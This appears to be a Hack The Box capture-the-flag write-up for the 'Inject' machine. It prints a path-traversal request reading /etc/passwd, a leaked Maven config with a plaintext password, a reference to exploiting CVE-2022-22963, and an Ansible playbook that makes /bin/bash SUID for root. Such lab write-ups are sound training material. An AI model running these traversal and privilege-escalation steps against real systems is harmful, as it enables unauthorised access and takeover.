 ```yaml
---
title: "Inject HTB"
date: 2023-03-31T23:07:54-07:00
draft: false
---
```



![](https://www.hackthebox.com/storage/avatars/285ba8819710b6ae1f67bc0e5914ffd9.png)


# Scan

`sudo nmap -sU -sS -p- -T5 --min-rate=10000 10.129.37.185`

~~~bash
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
~~~

# FUZZing
Upon uploading a test image, you get redirected to
`http://10.129.37.185:8080/show_image?img=image`
maybe there is LFI?

`curl -l "http://10.129.37.185:8080/show_image?img=/../../../../../../../../../../etc/passwd"`

~~~bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
~~~

# Foothold
`curl "http://10.129.37.185:8080/show_image?img=/../../../../../../../../../../home/frank/somedir"`
there is a dir called .m2 and upon opening it or listing the files in it there is a file that contains the creds!

~~~xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
~~~

After being stumped and a bit annoyed at the fact it is considered an "easy machine"...
I found a POC
Metasploit has it and the web server uses spring cloud

https://nvd.nist.gov/vuln/detail/CVE-2022-22963


# User
switch to phil to get user.txt and for priv esc

# Priv esc


making a file in /opt/automation/tasks called pe.yml
with the contents
~~~yml
- hosts: localhost  
  tasks:  
    - name: Priv esc  
      ansible.builtin.shell: |  
        chmod +s /bin/bash  
      become: true
~~~
then after waiting a few minutes do `bash -p` to get root.

